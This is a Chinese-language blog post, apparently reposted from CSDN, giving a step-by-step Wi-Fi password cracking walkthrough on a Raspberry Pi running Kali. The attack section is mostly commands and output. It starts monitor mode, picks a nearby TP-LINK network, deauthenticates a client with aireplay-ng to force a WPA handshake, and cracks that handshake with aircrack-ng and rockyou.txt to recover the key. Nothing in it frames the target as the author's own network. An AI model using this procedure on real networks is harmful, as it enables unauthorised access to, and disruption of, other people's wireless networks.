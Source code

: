 ```yaml
---
title: 获取WIFI握手包
date: 2018-06-14 00:14:00
tags:
- RaspberryPi
categories:
- RaspberryPi
---
```



#### 1. 说明
&emsp;树莓派3B已经成为arm主流开发板，不仅有成熟完善的raspbian系统，还可以安装Ubuntu、Centos、Kali系统，因此，树莓派可以做各种各样的事，接下来，我就介绍下树莓派破解Wi-Fi密码的过程。
 
<!--more-->

#### 2.安装kali
&emsp;因为Kali是一个专门的网络渗透系统，自带很多工具，所以就采用直接安装Kali来使用airmon-ng工具。
下载地址：https://www.offensive-security.com/kali-linux-arm-images/

> 下载下来是kali-2017.3-rpi3-nexmon.img.xz文件。  
> 在Windows下直接使用解压缩软件解压。   
> 在Linux下用 xz -d kali-2017.3-rpi3-nexmon.img.xz 解压。  
> 得到的img文件就可以直接使用了，将其写入TF卡即可。


#### 3.升级Kali
> 将树莓派插上显示屏和鼠标键盘。  
> 用户：root  
> 密码：toor  

``` bash
# 打开Terminal，执行
echo "deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free" > /etc/apt/sources.list
apt update && apt upgrade -y

# 安装完整版kali
# apt install kali-linux-all

# 安装Extend Filesystem（可选）
# apt install gparted -y

# 安装xrdp [不能插上显示屏使用]
# apt install xrdp
# 开机自启
# update-rc.d xrdp enable
```
---

#### 4.开始破解

> 破解过程如下：
> - 找到设备iwconfig并开启监控
> - 查看附近的Wi-Fi，并选择一个
> - 攻击并开始抓包，得到handshake
> - 下载字典，开始破解

``` bash
# 查看得到网卡名为wlan0：
iwconfig
# 内容如下：
eth0      no wireless extensions.

wlan0     IEEE 802.11  ESSID:off/any  ...

# 找到Wi-Fi代号为wlan0，接着启动monitor模式：
airmon-ng start wlan0

# 查看附近的无线网络
airodump-ng wlan0mon
# 内容如下：
BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID                                             

 F2:B4:29:E5:1C:74   -1        0       20    0   6  -1   OPN              <length:  0>                                      
 94:77:2B:47:92:1C  -74      119     1842   49   7  54e  WPA2 CCMP   PSK  HUAWEI-RF4BXM                                  
 14:75:90:DB:90:91  -81       53        0    0  11  54e. WPA2 CCMP   PSK  TP-LINK_DB9091    

# 选择一个Wi-Fi，复制BSSID，记下CH信道，组合如下命令开始攻击抓包
# [演示选择TP-Link：airodump-ng wlan0mon --bssid 复制的BSSID -c CH信道 -w 保存名]
airodump-ng wlan0mon --bssid 14:75:90:DB:90:91 -c 11 -w wificrack

# 可以看到，有一台设备连接到该路由WiFi，但此时没有设备连入，故抓不到完整4步握手包。
# 若抓不到4步握手，则通过以下命令断开设备与WiFi的连接，使其重新建立连接从而可以抓取四步握手信息：
# 新开一个Terminal窗口：[参数：攻击2次，路由ssid和设备Mac地址]
aireplay-ng -0 2 -a 14:75:90:DB:90:91 -c 54:DC:1D:27:0D:50 wlan0mon

# 原窗口得到握手包：内容如下：
 CH 11 ][ Elapsed: 5 mins ][ 2018-01-29 05:52 ][ WPA handshake: 14:75:90:DB:90:91                                           

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID                                         

 14:75:90:DB:90:91  -71  93     3136       43    0  11  54e. WPA2 CCMP   PSK  TP-LINK_DB9091                                

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                  

 14:75:90:DB:90:91  54:DC:1D:27:0D:50  -39    0e- 0e     0       44  TP-LINK_DB9091 

通过ls wificrack*命令查看抓到的信息保存的文件（多的wpa包是之前做测试保存下来的）：

这里看最新的那个即wifi-04即可，可以看到总共有4个。

# 后面使用Kali Linux中默认存在的字典，目录[需要使用命令来解压]
/usr/share/wordlists/rockyou.txt.zip
# 这里顺便记录一下Kali中几个常用的字典文件的位置：
/usr/share/john/password.lst
/usr/share/wfuzz/wordlist
/usr/share/ wordlists

# 如果没有该文件，就需要下载：
wget http://scrapmaker.com/data/wordlists/dictionaries/rockyou.txt

# 破解：[rockyou.txt是字典、wifi-01.cap是抓包]
aircrack-ng -w rockyou.txt wificrack-01.cap
# 结果如下：[密码为：12345678]
                                 Aircrack-ng 1.2 rc4                                                                        

      [00:00:00] 4/4 keys tested (31.56 k/s)                                                                                

      Time left: 0 seconds                                     100.00%                                                      

                           KEY FOUND! [ 12345678 ]                                                                          
# 关闭wlan0无线网卡monitor mode
airmon-ng stop wlan0mon
```

注:本文转自[树莓派3B+ 破解Wi-Fi密码](https://blog.csdn.net/kxwinxp/article/details/79187472),亲测有效^-^ !!!


 

